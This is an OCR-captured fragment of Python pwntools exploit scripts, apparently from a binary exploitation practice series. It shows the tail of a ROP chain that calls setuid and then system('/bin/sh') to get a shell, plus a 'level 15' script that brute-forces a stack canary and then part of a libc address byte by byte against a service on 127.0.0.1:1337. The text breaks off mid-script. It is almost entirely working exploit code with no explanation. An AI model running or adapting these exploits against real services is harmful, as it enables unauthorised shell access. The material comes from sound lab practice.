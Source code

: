 p=remote("127.0.0.1","1337")
payload=b'b'*0x38+p64(canary)+p64(0)+p64(rdi_ret)+p64(0)+p64(rsi_r15_ret)+p64(0)*2+p64(setuid_add)+p64(rdi_ret)+p64(bin_sh)+p64(rsi_r15_ret)+p64(0)*2+p64(sys_add)
p.send(payload)


p.interactive()

level 15
from pwn import *
can_list=[]

payload=b'b'*0x38+b'\x00'

for round in range(7):
    for i in range(256):
        p=remote("127.0.0.1","1337")
        test_payload=payload+i.to_bytes(1, byteorder='little')
        p.send(test_payload)
        res_str=str(p.recvall())
        if res_str.find("*** stack smashing detected ***")==-1:
            p.close()
            payload+=i.to_bytes(1, byteorder='little')
            can_list.append(i)
            break
        p.close()

print(can_list)
canary_str="0x"
for i in range(len(can_list)):
    tt=hex(can_list[-(i+1)])[2:]
    if(len(tt)!=2):
        tt='0'+tt
    canary_str+=tt
canary_str+="00"
print(canary_str)
canary=int(canary_str,16)

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

libc_list=[]
payload=b'b'*0x38+p64(canary)+p64(0)+b'\xb3'

for round in range(3):
    for i in range(256):
        p=remote("127.0.0.1","1337")
        test_payload=payload+i.to_bytes(1, byteorder='little')
        p.send(test_payload)
        res_str=str(p.recvall())
        if res_str.find("*** stack smashing detected ***")==-1:
            p.close()
            payload+=i.to_bytes(1, byteorder='little')
            libc_list.append(i)
            break
        p.close()
